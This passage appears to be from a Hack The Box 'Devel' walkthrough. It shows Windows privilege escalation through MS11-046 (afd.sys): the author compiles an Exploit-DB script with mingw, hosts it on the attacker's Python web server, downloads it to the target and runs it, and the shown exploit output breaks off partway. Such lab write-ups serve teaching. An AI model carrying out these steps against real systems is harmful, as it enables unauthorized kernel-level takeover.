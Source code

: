 The Ancillary Function Driver (AFD) supports Windows sockets applications and is contained in the afd.sys file. The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol. An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel. An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability. An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).

Sweet! thats what we need. Further googling leads me to the exploit script from [exploitdb](https://www.exploit-db.com/exploits/40564) which need to be compiled.

I will compile it on my linux box using `mingw-w64` and save it as `privesc.exe`. You can easily install this by issuing the `sudo apt-get install mingw-w64`

```sh
┌─[george@parrot]─[~/HTB/boxes/devel/www]
└──╼ $ i686-w64-mingw32-gcc 40564.c -o privesc.exe -lws2_32                                                      
┌─[george@parrot]─[~/HTB/boxes/devel/www]
└──╼ $ ls                                               
40564.c  privesc.exe  shell.ps1
```
Once thats done, I will host a webserver on my box and on the windows machine I will download it and execute it.

```sh
┌─[george@parrot]─[~/HTB/boxes/devel/www]
└──╼ $ sudo python3 -m http.server 80                                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                                         
10.10.10.5 - - [28/Sep/2023 22:58:01] "GET /privesc.exe HTTP/1.1" 200 -                                          
10.10.10.5 - - [28/Sep/2023 23:02:15] "GET /privesc.exe HTTP/1.1" 200 -
```

### Ran into Trouble!!

Since my shell is in powershell, I had a hard time trying to execute this binary.

```shell
cmd.exe /c privesc.exe                                                                                                                                                                                                            

c:\Windows\System32>[*] MS11-046 (CVE-2011-1249) x86 exploit                                                                                                                                                                      
   [*] by Tomislav Paskalev                                                                                                                                                                                                       
[*] Identifying OS                                                                                                                                                                                                                
   [+] 32-bit                                                                                                                                                                                                                     
   [+] Windows 7                                                                                                                                                                                                                  
[*] Locating required OS components                                                                                                                                                                                               
   [+] ntkrnlpa.exe                                                                                                                                                                                                               
```